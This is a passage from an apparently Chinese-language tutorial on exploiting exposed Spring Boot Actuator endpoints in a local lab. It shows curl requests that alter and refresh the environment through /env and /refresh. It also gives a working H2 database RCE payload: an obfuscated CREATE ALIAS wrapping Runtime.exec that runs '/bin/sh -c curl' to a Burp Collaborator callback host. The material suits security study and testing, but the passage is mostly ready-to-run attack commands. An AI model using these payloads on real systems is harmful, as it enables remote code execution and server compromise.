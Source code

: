 ```plain
curl -X POST http://localhost:9093/refresh
```

[![](assets/1703152930-0eafcbe0788d228b4e163d5dd6c116a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111914-49db93d0-d176-1.png)

成功执行请求，也执行了命令。

- - -

**(4) 恢复 eureka.client.serviceUrl.defaultZone**

如果不恢复的话，那么就会一直执行，系统也会一直报错。

```plain
curl -H 'Content-Type: application/x-www-form-urlencoded' -X POST --data "eureka.client.serviceUrl.defaultZone="原先的值" http://localhost:9093/env
```

然后刷新，使用新配置

```plain
curl -X POST http://localhost:9093/refresh
```

- - -

#### **3.restart h2 database query RCE**

```plain
cd springboot-h2-database-rce
mvn spring-boot:run
```

> 影响版本:(未知) 我改了配置文件，直接用了最新版的来做演示
> 
> 目前最新版:1.4.200

**(1) 设置 spring.datasource.hikari.connection-test-query**

```plain
cmd.json:
{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/sh','-c','curl 0bcmbenbn8ydjn0zgztfb76hf8l29r.burpcollaborator.net');"}

curl -H "Content-Type:application/json" -X POST  -d @/tmp/cmd.json http://localhost:9096/actuator/env
```
